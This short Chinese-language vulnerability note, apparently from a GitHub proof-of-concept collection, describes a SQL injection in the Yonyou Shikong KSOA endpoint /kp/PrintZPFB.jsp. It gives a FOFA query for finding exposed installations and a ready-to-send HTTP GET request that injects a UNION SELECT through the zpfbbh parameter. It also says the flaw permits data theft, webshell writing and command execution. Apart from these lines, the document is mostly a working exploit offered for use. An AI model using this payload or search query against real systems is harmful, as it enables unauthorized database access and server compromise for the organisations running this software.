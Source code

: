 # 用友时空KSOA系统接口PrintZPFB.jsp存在SQL注入漏洞

用友时空KSOA接口 `/kp//PrintZPFB.jsp` 接口存在SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

## fofa

```yaml
app="用友-时空KSOA"
```

## poc

```yaml
GET /kp/PrintZPFB.jsp?zpfbbh=1%27+union+select+1,2,3,4,db_name()+--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
```

